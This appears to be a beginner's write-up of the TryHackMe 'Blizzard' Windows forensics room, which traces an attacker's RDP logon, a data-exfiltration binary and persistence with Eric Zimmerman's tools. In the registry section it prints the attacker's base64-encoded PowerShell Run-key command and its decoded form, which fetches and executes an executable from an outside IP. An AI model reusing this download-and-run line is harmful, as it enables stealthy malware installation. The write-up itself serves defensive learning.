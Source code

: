 # Blizzard
**Description:** A critical alert was triggered from a sensitive server. You are tasked to perform a live investigation on multiple machines to determine the root cause of the incident.  
**Difficulty:** Medium  
**Link:** https://tryhackme.com/r/room/blizzard

## Task 1: Introduction: Analysing the Impact

Disclaimer: This is my first ever write-up and I am not an expert in the field of Windows forensics. While the answers are factually correct, there might be much more efficient ways to obtain them.

>When did the attacker access this machine from another internal machine? (format: MM/DD/YYYY HH:MM:SS)

We could probably answer this using the native Windows Event Viewer (`eventvwr.msc`), but let's instead make use of the tools provided in the room. First we run [Eric Zimmerman's](https://ericzimmerman.github.io/#!index.md) event log parser EvtxECmd.

```
C:\Tools\EvtxECmd\EvtxECmd.exe -f C:\Windows\System32\winevt\Logs\Security.evtx --inc 4624,4625 --csv .
```

![screenshot1](/Blizzard/assets/screenshot1.png)

We command the tool to read in the security log file at `C:\Windows\System32\winevt\Logs\Security.evtx`, exctract successful (Event ID 4624) and failed (4625) logons and write the data to a CSV file in the current folder.

![screenshot2](/Blizzard/assets/screenshot2.png)

Now we can finally have a look at the logs by opening the output file in Timeline Explorer (shortcut on the desktop). Scrolling through the data we notice the `Remote Host` column, which in some rows contains IP addresses. Before wasting any time manually going through a thousand rows of logs, we can use the task description to greatly narrow down our search:

>The IT team has also shared that the infected database server is set up for internal access only and is not yet linked to other systems

We can figure out which network the machine is connected to using ipconfig

![screenshot3](/Blizzard/assets/screenshot3.png)

Here some basic networking knowledge helps. An IPv4 address of `10.10.211.166` with a `255.255.0.0` subnet mask means we are on the `10.10.0.0/16` network, in other words: All hosts on the same, internal, network must start with `10.10.`.

By clicking below the `Remote Host` column heading in Timeline Explorer we create a filter `contains 10.10.` We also know from the task description that the data exfiltration was detected at time `03/24/2024 19:55:29`, so we can add another filter for the `Time Created` column, displaying only logs from the same day.

We have now narrowed it down to 146 rows of data. Ordering them by `Time Created`, adjusting the columns to display only relevant data, and focussing on the rows immediately before the incident was detected, we notice a logon `Type 3` for user `dbadmin` followed by a logon `Type 10` one second later. Some googling later I knew that `Type 3` stands for `Network` while `Type 10` denotes `RemoteInteractive` logons, most likely RDP ([Microsoft Docs](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc787567(v=ws.10))). 

![screenshot4](/Blizzard/assets/screenshot4.png)

Full disclosure: I still don't fully understand what is going on here, why there is one succesful `Type 3` logon at second `01` followed by an identical one less than a minute later and then ultimately a `Type 10`. As far as flags are concerned, I tried each of the three timestamps and then did some googling in an attempt to understand the correct answer. [One article I found](https://frsecure.com/blog/rdp-connection-event-logs/) points to event ID 1149 in the `TerminalServices-RemoteConnectionManager/Operational` log specifically for successful RDP logons. I wanted to confirm that, so I ran EvtxECmd again:

```
C:\Tools\EvtxECmd\EvtxECmd.exe -f C:\Windows\System32\winevt\Logs\Microsoft-Windows-TerminalServices-RemoteConnectionManager%4Operational.evtx --inc 1149 --csv .
```
![screenshot5](/Blizzard/assets/screenshot5.png)

Opened in Timeline Explorer we only have a couple of rows, with precisely one containing `dbadmin` and a `10.10.0.0/16` remote host. Probably not the cleanest method, but this timestamp, which matches the redacted one in the security event log above, is the one we are looking for.

![screenshot6](/Blizzard/assets/screenshot6.png)

>What is the full file path of the binary used by the attacker to exfiltrate data?

Amcache is a Windows artifact that among other things, stores information on executables that were executed on a system. Another one of Zimmerman's tools, AppCompatCacheParser, pulls the data for us and hands us a CSV file to work with.

```
C:\Tools\AppCompatCacheParser\AppCompatCacheParser.exe --csv .
```

![screenshot7](/Blizzard/assets/screenshot7.png)

Once we've opened the file in Timeline Explorer, filtered for `Executed=Yes`, sorted by `Cache Entry Position`, and arranged the columns for better visibility, we find the local PostgreSQL database [has been backed up](https://www.postgresql.org/docs/current/app-pgdump.html), followed by the execution of `######.exe` from `dbadmin`'s home directory.

![screenshot8](/Blizzard/assets/screenshot8.png)

If the name doesn't give it away already, let's Google the thing to be safe:

![screenshot9](/Blizzard/assets/screenshot9.png)

We found the culprit, next question.

>What email is used by the attacker to exfiltrate sensitive data?

This is probably part of the configuration data for the cloud backup tool found in the previous question. After a quick web search we are looking for `######.conf`. With the power of PowerShell:

```
Get-ChildItem -Path C:\Users\*######* -Force -Recurse -ErrorAction SilentlyContinue
```
we quickly find the file

![screenshot10](/Blizzard/assets/screenshot10.png)

and reveal its content

![screenshot11](/Blizzard/assets/screenshot11.png)

>Where did the attacker store a persistent implant in the registry? Provide the registry value name.

Two [keys contain programs](https://learn.microsoft.com/pl-pl/windows/win32/setupapi/run-and-runonce-registry-keys) that run every time a user logs on:

* HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
* HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run

The file for the former is located at `C:\Windows\System32\config\SOFTWARE`, for the latter at `C:\Users\<USER>\NTUSER.DAT`. But we don't need to look for these files, which in a live system are locked by the OS, manually, since `Registry Explorer` imports them at the click of a button.

![screenshot12](/Blizzard/assets/screenshot12.png)

There we have it, this

![screenshot13](/Blizzard/assets/screenshot13.png)

```
powershell.exe -enc aQB3AHIAIAAtAHUAcwBlAGIAIABoAHQAdABwADoALwAvADEAMgA4AC4AMQA5ADkALgAyADQANwAuADEANwAzAC8AYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQAgAC0AbwB1AHQAZgBpAGwAZQAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAcgBtACAAJABlAG4AdgA6AGEAcABwAGQAYQB0AGEAXABjAG8AbgBmAGkAZwB1AHIAZQAuAGUAeABlAA==
```
is run every time a user logs in. The key's `Value Name` is the flag. The task doesn't ask for it, but the `-enc` option lets you feed Powershell with Base64 (crucial for decoding: using the UTF-16LE character set) encoded commands. This can be used in an attempt to evade detection as seen here. The decoded command

```
iwr -useb http://128.199.247.173/configure.exe -outfile $env:appdata\configure.exe; Start-Process $env:appdata\configure.exe; rm $env:appdata\configure.exe
```
downloads `configure.exe` from a remote host, executes it, and then deletes it again.

>Aside from the registry implant, another persistent implant is stored within the machine. When did the attacker implant the alternative backdoor? (format: MM/DD/YYYY HH:MM:SS)

I am sure there is a more efficient way (that's probably true for other things I did, as I'm new to Windows forensics), but after having ruled out Scheduled Tasks, I adapted a Powershell script from [another THM room](https://tryhackme.com/r/room/windowsapplications) to enumerate services

```powershell
$services = Get-Service | Where-Object {$_.StartType -eq "Automatic"}
foreach ($service in $services) {                                                        
    $serviceName = $service.Name                                                           
    $serviceWMI = (Get-WmiObject Win32_Service | Where-Object { $_.Name -eq $serviceName})      
    $servicePath = $serviceWMI.PathName
    Write-Host "Service Name: $serviceName"
    Write-Host "Executable Path: $servicePath"
    Write-Host "--------------------"
}
```
The code first retrieves all services that are configured to start automatically when the system starts, then prints relevant information on the screen for me to manually filter. The output only being a couple of dozen lines long, one service immediately stood out while the script was still running

![screenshot14](/Blizzard/assets/screenshot14.png)

Having found `CDPUserSvc_9286x` I now simply loaded the `SYSTEM` registry hive into Registry Explorer and searched for the service name.

![screenshot15](/Blizzard/assets/screenshot15.png)

Both search results come with identical `Last write` timestamps. That is when the service was created and with that, the answer to the last question of task 1.

Work in progress...
